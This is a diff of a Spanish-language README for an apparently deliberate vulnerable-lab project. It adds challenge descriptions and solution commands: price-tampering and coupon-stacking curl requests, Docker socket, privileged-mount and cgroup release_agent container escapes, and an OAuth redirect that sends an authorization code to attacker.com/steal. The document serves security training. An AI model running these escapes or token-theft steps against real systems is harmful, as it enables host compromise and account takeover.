

Before and after one commit to afsh4ck/HackLabs, a Markdown page: README.md, the part around one of its changes. Shown at 82% size. Rendered like a GitHub page; folded sections open; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -376,3 +386,78 @@ sliver (ID) > ps
 | Easy | Sin protección XXE — `resolve_entities` habilitado |
 | Medium | Bloquea protocolo `file://` (bypass: SSRF con `http://` a servicios internos) |
 | Hard | Bloquea `DOCTYPE`, `ENTITY`, `SYSTEM`, `PUBLIC` case-insensitive |
+
+</details>
+
+<details>
+<summary><strong>Business Logic Flaws</strong></summary>
+
+| Nivel | Comportamiento |
+|-------|---------------|
+| Easy | Precio enviado como campo oculto en el formulario (bypass: modificar `price=1`) |
+| Medium | Precio validado server-side pero cantidad negativa no validada + cupones apilables sin límite |
+| Hard | Precio y cantidad validados + tracking de cupones por sesión |
+
+```bash
+# Easy — manipulación de precio
+curl -X POST http://TARGET_IP/shop/cart/add \
+  -b "session=SESS" -d "product_id=1&price=1&qty=1"
+curl -X POST http://TARGET_IP/shop/checkout -b "session=SESS"
+
+# Medium — cupones apilables (50%+50% = gratis)
+curl -X POST http://TARGET_IP/shop/coupon -b "session=SESS" -d "code=LABS50"
+curl -X POST http://TARGET_IP/shop/coupon -b "session=SESS" -d "code=LABS50"
+curl -X POST http://TARGET_IP/shop/checkout -b "session=SESS"
+```
+
+Flag: `HL{bu51n355_l0g1c_0wn3d}`
+
+</details>
+
+<details>
+<summary><strong>Container Escape</strong></summary>
+
+| Nivel | Comportamiento |
+|-------|---------------|
+| Easy | Docker socket montado (`/var/run/docker.sock`) — escape via `docker run` desde dentro |
+| Medium | Contenedor privileged — escape via `mount /dev/sda1` + `chroot` |
+| Hard | Cgroup release_agent — escape sin socket ni privileged, solo `CAP_SYS_ADMIN` |
+
+```bash
+# Easy — Docker socket escape
+docker run -v /:/hostfs --rm -it alpine chroot /hostfs sh
+cat /root/root.txt
+
+# Medium — privileged + fdisk
+fdisk -l && mkdir /tmp/hostdisk
+mount /dev/sda1 /tmp/hostdisk && chroot /tmp/hostdisk
+
+# Hard — cgroup release_agent
+mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
+echo 1 > /tmp/cgrp/x/notify_on_release
+host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
+echo "$host_path/cmd" > /tmp/cgrp/release_agent
+echo '#!/bin/sh' > /cmd && echo "id > ${host_path}/output" >> /cmd && chmod a+x /cmd
+sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs" && cat /output
+```
+
+</details>
+
+<details>
+<summary><strong>OAuth 2.0 Attacks</strong></summary>
+
+| Nivel | Comportamiento |
+|-------|---------------|
+| Easy | `redirect_uri` sin validar — cualquier URL aceptada |
+| Medium | Solo valida el dominio (bypass: misma base + path diferente, o Open Redirect en el dominio) |
+| Hard | Whitelist exacta (bypass: encadenamiento con `/open_redirect` del mismo servidor) |
+
+```bash
+# Easy — redirigir código a servidor atacante
+curl "http://TARGET_IP/oauth/authorize?client_id=hacklabs-app&redirect_uri=http://attacker.com/steal&state=x&scope=read"
+# El código llega a attacker.com — intercambiarlo:
+curl -X POST http://TARGET_IP/oauth/token \
+  -d "code=CODE&client_id=hacklabs-app&client_secret=app-secret-123&redirect_uri=http://attacker.com/steal"
+curl http://TARGET_IP/oauth/userinfo -H "Authorization: Bearer TOKEN"
+```
+
````
Also changed, not shown: other parts of README.md (+55 -14 lines).
